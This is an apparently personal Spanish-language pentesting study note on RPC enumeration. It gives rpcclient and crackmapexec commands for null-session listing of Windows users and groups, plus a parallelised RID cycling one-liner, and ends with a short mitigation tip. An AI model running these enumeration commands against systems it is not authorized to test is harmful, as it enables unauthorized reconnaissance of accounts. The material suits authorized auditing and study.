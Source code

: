 ----
- Tags: #teoria #practica #recon 
- -----

# Remote Procedure Call 

El protocolo **RPC** (**Remote Procedure Call** o **llamada a procedimiento remoto**) es un protocolo que permite a un programa solicitar un servicio a un programa ubicado en otro equipo dentro de una red. (Puerto **135**)

Por otro lado, los **RID** (**Relative Identifier**) son una parte de los *SID* (*Security Identifier*) que identifica de manera única a una cuenta o grupo dentro de un dominio o equio local. 

-----
# Enumeración 

La enumeración del protcolo *RPC* puede ser fundamental en una auditoria para enumerar usuarios, grupos, etc.

Para esto podemos hacaer uso de herramientas como **rpcclient**. 

#### Enumeración
```bash
rpcclient -U "" {target_ip} -N
# Intentar obtener una consola haciendo uso de una NULL session para poder enumerar usuarios, grupos, etc. 
rpcclient -U "{username}%{password}" {target_ip} -N
# Intentar obtener una consola haciendo uso de credenciales para poder enumerar usuarios, grupos, etc. 
```
#### Comandos en "rpcclient $>": 
```bash
enumdomusers 
# Listar los usuarios junto a sus rid
enumdomgroups
# Listar los grupos junto a su rid
querygroupmem {rid} 
# Listar los usuarios pertenecientes a un grupo 
queryuser {rid}
# Listar datos del usuario ingresado
querydispinfo
# Listar descripciones de los grupos 
```
 También podríamos intentar brute forcear estos valores mediante herramientas como **crackmapexec**:
```bash
crackmapexec smb {domain} -u anonymous -p "" --rid-brute 10000
```

----
# RID Cycling attack

Adiconalmente, la técnica *RID Cycling* es un método utilizado para enumerar cuentas de usuario en un sistema Windows. Este ataque explota el hecho de que se puedan cosnultar los **SIDs** (**Securit Identifiers**) de manera incremental mediante solictudes RPC, incluso si las políticas de acceso de la red son restrictivas.

Para llevar a cabo el ataque *RID Cycling*, podemos hacer uso de herramientas como `rpcclient` de Samba o `crackmapexec`.

```bash
rpcclient -U 'guest%' {target_IP} -c 'lookupnames administrator'
```

Una vez ejecutado el comando indicado, veremos en el stdout el *SID*, por ejemplo:

```bash
administrator S-1-5-21-4078382237-1492182817-2568127209-500 (User: 1)
```

Donde el *SID* sería *administrator S-1-5-21-4078382237-1492182817-2568127209-* y el *RID* el número final *500*. Entendiendo esta composición, podremos hacer uso del SID e iterar por diversos valores en la posición del *RID*:

```bash
seq 400 2000 | xargs -P 200 -I {} rpcclient -U 'guest%' {target_IP} -c 'lookupsids S-1-5-21-4078382237-1492182817-2568127209-{}' | grep -v unknown
```

De esta manera, lograríamos obtener un listado de usuarios válidos en el dominio de *Active Directory* o en el equipo local del workstation.

----
# Mitigating RID Cycling

Para evitar este tipo de ataques, se recomienda restringir el acceso a RPC a través de firewalls y políticas de acceso, así como monitorear el tráfico de red.


